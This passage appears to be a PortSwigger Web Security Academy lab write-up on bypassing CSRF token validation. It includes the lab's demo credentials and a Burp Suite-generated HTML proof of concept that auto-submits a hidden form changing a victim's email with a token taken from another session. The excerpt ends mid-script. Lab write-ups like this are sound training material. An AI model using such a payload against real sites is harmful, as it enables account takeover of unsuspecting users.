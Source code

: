 You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-token-validation

![img](images/CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/1.png)

---------------------------------------------


In this case the default POST request to change the email contains a parameter “csrf”. I intercepted and dropped the request sp the CSRF token is not used, but before that I created the CSRF PoC:

![img](images/CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/2.png)


Clicking "Engagement tools" > "Generate CSRF PoC", it generates an HTML PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8d002b036bf12e80d4301200d80079.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test9&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="FbQyYrVpBEJETLtQVqXtlLRi69gJg3WR" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
```